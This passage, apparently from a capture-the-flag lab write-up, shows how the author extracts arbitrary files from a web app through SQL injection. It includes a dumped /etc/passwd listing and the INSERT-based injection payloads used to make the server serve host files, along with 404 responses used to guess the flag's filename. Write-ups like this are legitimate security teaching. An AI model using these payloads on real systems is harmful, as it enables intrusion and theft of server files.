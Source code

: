 ```
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

Boom! We are able to perform `arbitrary file extraction` by creating a new table entry with SQL injection.

#### Leverage the Web Application to perform arbitrary file extraction to get the flag

Over the course of grabbing files from the host, I realized it would return a `404` response in the browser if the file we were attempting to grab did not exist. I was able to use this technique to "fuzz" the server because we do not know the name of the flag file.

![404'd](images/no_file_present.png)

Let's now try our technique with the following paths.
```
flag.txt
flag.jpg
flag
```
Payload for `flag.txt`

```
';insert into products(name,image,text,price) values ('test5','flag.txt','blarg',5.56)#
```
When you Right-Click > open in a new tab, we get a `404` response.

Payload for `flag.jpg`
```
';insert into products(name,image,text,price) values ('test6','flag.jpg','blarg',5.56)#
```
When you Right-Click > open in a new tab, we get a `404` response.
